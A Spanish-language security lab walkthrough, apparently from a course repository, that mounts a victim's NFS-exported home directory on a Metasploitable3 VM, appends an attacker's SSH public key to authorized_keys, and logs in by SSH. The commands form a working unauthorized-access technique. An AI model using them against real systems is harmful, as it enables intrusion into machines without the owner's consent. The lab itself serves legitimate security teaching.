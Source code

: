 # Escalado de privilegio en una NFS mal configurada.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Metasploitable3-ubu1404***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: ***Enumeración NFS***. Ejercicio - Instalar un servidor NFS en ***Metasploitable3-ubu1404***.


## Inyección de claves SSH a través del share.

Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que un usuario ha compartido su directorio ***home***, con el riesgo que eso conlleva.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.13
```

Cuya salida demuestra que se está compartiendo el directorio home del usuario ***vagrant*** en dicha máquina. El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir /tmp/directorio-home-de-la-victima
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.13:/home/vagrant /tmp/directorio-home-de-la-victima
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.

![NFS Share mounted](../img/lab-30-D/202209101822.png)

El punto de montaje se corresponde con el directorio raíz del usuario. Vamos a listarlo porque pretendemos encontrar un directorio muy "interesante" como muestra la imagen.
Nota: Mostramos archivos y carpetas ocultos.

```
ls -l -a /tmp/directorio-home-de-la-victima
```

![listado del home](../img/lab-30-D/202209101827.png)

El directorio oculto ***ssh*** almacena las claves ***públicas***, ***privadas*** y ***autorizadas*** para poder hacer un ***login ssh*** que no requiere contraseña.

Podemos ver los archivos que contiene de la siguiente forma.
```
sudo ls -a -l /tmp/directorio-home-de-la-victima/.ssh
```

La técnica que se usa es la de crear en la máquina de ataque una pareja de claves público/privada. A continuación (por tener permiso ***rw*** en el share) agregaremos la ***clave pública*** al archivo ***authorized_keys*** de la víctima.

Creamos la pareja de claves. En la máquina ***kali*** ejecutamos el comando.
Nota: Pulsamos ***ENTER*** por cada pregunta que nos formule.
```
ssh-keygen
```

El archivo que contiene la clave pública es.
```
ls ~/.ssh/id_rsa.pub
```

Y su contenido es.
```
cat ~/.ssh/id_rsa.pub
```

Ahora simplemente tenemos que añadir la ***clave pública*** al archivo ***authorized_keys*** de la víctima.
```
sudo sh -c "cat /home/antonio/.ssh/id_rsa.pub >>  /tmp/directorio-home-de-la-victima/.ssh/authorized_keys"
```

Podemos comprobar como se ha añadido la clave pública al final del archivo de claves autorizadas.
```
sudo cat /tmp/directorio-home-de-la-victima/.ssh/authorized_keys
```

Lo único que queda por hacer es comprobar que se puede acceder al equipo de la víctima por ***ssh***.
Nota: ***~/.ssh/id_rsa*** es el archivo que contiene la ***clave privada*** que hemos creado antes.
```
ssh -i ~/.ssh/id_rsa antonio@192.168.20.13
```

En la imagen podemos ver como se conecta a través de ***ssh***. Respondemos ***yes*** para realizar la conexión.

![ssh a la victima](../img/lab-30-D/202209101846.png)





